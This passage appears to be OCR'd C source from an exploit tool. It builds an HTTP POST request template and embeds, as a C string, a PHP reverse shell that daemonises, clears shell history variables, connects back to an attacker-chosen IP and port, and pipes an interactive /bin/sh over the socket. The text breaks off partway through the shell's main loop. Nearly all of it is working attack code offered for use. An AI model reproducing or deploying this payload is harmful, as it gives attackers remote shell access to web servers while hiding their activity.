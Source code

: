 >  "Host: %s\r\n"   
>  "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"   
>  "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"   
>  "Content-Type: application/x-www-form-urlencoded\r\n"   
>  "Content-Length: %d\r\n"   
>  "Connection: close\r\n\r\n%s";
> char phpstr[] = "<?php\n"   
> "set_time_limit(0);\n"   
> "$ip = '%s';\n"   
> "$port = %d;\n"   
> "$chunk_size = 1400;\n"   
> "$write_a = null;\n"   
> "$error_a = null;\n"   
> "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"   
> "$daemon = 0;\n"   
> "$debug = 0;\n"   
> "if (function_exists('pcntl_fork')) {\n"   
> "  $pid = pcntl_fork();    \n"   
> "  if ($pid == -1) {\n"   
> "      printit(\"ERROR: Can't fork\");\n"   
> "      exit(1);\n"   
> "  }\n"   
> "  if ($pid) {\n"   
> "      exit(0);\n"   
> "  }\n"   
> "  if (posix_setsid() == -1) {\n"   
> "      printit(\"Error: Can't setsid()\");\n"   
> "      exit(1);\n"   
> "  }\n"   
> "  $daemon = 1;\n"   
> "} else {\n"   
> "  printit(\"WARNING: Failed to daemonise.\");\n"   
> "}\n"   
> "chdir(\"/\");\n"   
> "umask(0);\n"   
> "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"   
> "if (!$sock) {\n"   
> "  printit(\"$errstr ($errno)\");\n"   
> "  exit(1);\n"   
> "}\n"   
> "$descriptorspec = array(\n"   
> "   0 => array(\"pipe\", \"r\"),\n"   
> "   1 => array(\"pipe\", \"w\"),\n"   
> "   2 => array(\"pipe\", \"w\")\n"   
> ");\n"   
> "$process = proc_open($shell, $descriptorspec, $pipes);\n"   
> "if (!is_resource($process)) {\n"   
> "  printit(\"ERROR: Can't spawn shell\");\n"   
> "  exit(1);\n"   
> "}\n"   
> "stream_set_blocking($pipes[0], 0);\n"   
> "stream_set_blocking($pipes[1], 0);\n"   
> "stream_set_blocking($pipes[2], 0);\n"   
> "stream_set_blocking($sock, 0);\n"   
> "while (1) {\n"   
> "  if (feof($sock)) {\n"   
> "      printit(\"ERROR: Shell connection terminated\");\n"   
> "      break;\n"   
> "  }\n"   
> "  if (feof($pipes[1])) {\n"   
> "      printit(\"ERROR: Shell process terminated\");\n"   
> "      break;\n"   
> "  }\n"   
> "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"   